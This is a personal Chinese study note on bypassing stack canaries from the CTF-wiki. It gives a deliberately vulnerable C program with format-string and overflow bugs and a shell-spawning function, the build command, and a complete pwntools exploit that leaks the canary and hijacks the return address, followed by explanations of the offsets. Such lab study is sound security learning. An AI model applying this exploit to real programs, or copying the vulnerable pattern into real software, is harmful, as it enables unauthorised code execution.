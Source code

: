 # ctfwiki---canary相关

做一些笔记，记自己想了一些的地方  

关键点：  
Canary 设计为以字节 \x00 结尾  

存在漏洞的源代码：  
```c
// ex2.c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
void getshell(void) {
    system("/bin/sh");
}
void init() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}
void vuln() {
    char buf[100];
    for(int i=0;i<2;i++){
        read(0, buf, 0x200);
        printf(buf);
    }
}
int main(void) {
    init();
    puts("Hello Hacker!");
    vuln();
    return 0;
}
```

编译命令：  
```sh
gcc -m32 -no-pie -fstack-protector-all ex2.c -o ex2
```
关闭 pie 保护，打开 canary 保护  

exp 脚本：  
```python
#!/usr/bin/env python

from pwn import *

context.binary = 'ex2'
#context.log_level = 'debug'
io = process('./ex2')

get_shell = ELF("./ex2").sym["getshell"]

io.recvuntil("Hello Hacker!\n")

# leak Canary
payload = "A"*100
io.sendline(payload)

io.recvuntil("A"*100)
Canary = u32(io.recv(4))-0xa
log.info("Canary:"+hex(Canary))

# Bypass Canary
payload = "\x90"*100+p32(Canary)+"\x90"*12+p32(get_shell)
io.send(payload)

io.recv()

io.interactive()
```

需要解释的地方：  
1. `Canary = u32(io.recv(4))-0xa` 为什么要减 0xa？  
因为 canary 以 \x00 结尾，一开始输入了 100 个 "A"和一个回车（0xa），回车恰好覆盖了 canary 的 \x00 字节，所以需要减去 0xa  

2. `payload = "\x90"*100+p32(Canary)+"\x90"*12+p32(get_shell)` 为什么 payload 长这样？  
前 100 个字节是 buf 的长度，canary 就是为了不破坏原来的 canary，  
后面填充的 12 个字节，这里可以从静态和动态两方面分别解释  
静态：  
从 IDA 看到 `buf= byte ptr -70h`，也就是 buf 离 ebp 0x70，进入 vuln 函数对栈做了 2 个操作：push ret_addr, push ebp，所以 buf 起始点到要覆盖地址的距离是 0x70+4=116 ，buf 的长度加 canary 的长度是 104，所以后面还需要再填充 12 个字节  
动态：  
    ```
    0xffffd2ac --> 0x8048714 (<main+68>:	mov    eax,0x0)  # return addr
    
    0xffffd238 --> 0x1                                     # buf addr
    ```
    buf 的起始地址 和 要覆盖地址的距离 0xac-0x38 = 116，然后就不用解释了  


2020/6/28  

